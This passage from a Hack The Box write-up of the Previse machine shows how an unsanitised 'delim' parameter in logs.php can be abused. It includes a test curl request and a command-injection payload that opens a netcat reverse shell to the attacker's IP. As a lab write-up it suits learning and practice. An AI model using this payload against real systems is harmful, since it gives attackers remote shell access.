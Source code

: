 We can see that the script is using the exec function to call python, which then executes a python script, and it takes the parameter delim from the user. We can test this from the command line:

```text
┌──(root💀kali)-[~/htb/previse]
└─# curl -v --cookie "PHPSESSID=1ovoh21p24c94mggubgc3j16dn" -d delim=comma http://previse.htb/logs.php
*   Trying 10.10.11.104:80...
* Connected to previse.htb (10.10.11.104) port 80 (#0)
> POST /logs.php HTTP/1.1
> Host: previse.htb
> User-Agent: curl/7.74.0
> Accept: */*
> Cookie: PHPSESSID=1ovoh21p24c94mggubgc3j16dn
> Content-Length: 11
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 11 out of 11 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Wed, 29 Sep 2021 20:35:55 GMT
< Server: Apache/2.4.29 (Ubuntu)
< Expires: 0
< Cache-Control: must-revalidate
< Pragma: public
< Content-Description: File Transfer
< Content-Disposition: attachment; filename="out.log"
< Content-Length: 379
< Content-Type: application/octet-stream
< 
time,user,fileID
1632935648,admin,34
1632938455,admin,36
<SNIP>
1632944911,admin,32
1632946599,pencer,32
1632946660,pencer,32
* Connection #0 to host previse.htb left intact
```

## Parameter Tampering

We can see that works and I get the comma separated list back. We can abuse this lack of sanitizing input to get a reverse shell. Start netcat listening in another terminal, then use a simple reverse shell which has been URL encoded:

```text
┌──(root💀kali)-[~/htb/previse]
└─# curl -v --cookie "PHPSESSID=1ovoh21p24c94mggubgc3j16dn" -d delim=comma%26nc+-e+/bin/sh+10.10.14.214+1337 http://previse.htb/logs.php 
*   Trying 10.10.11.104:80...
* Connected to previse.htb (10.10.11.104) port 80 (#0)
> POST /logs.php HTTP/1.1
> Host: previse.htb
> User-Agent: curl/7.74.0
> Accept: */*
> Cookie: PHPSESSID=1ovoh21p24c94mggubgc3j16dn
> Content-Length: 45
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 45 out of 45 bytes
```
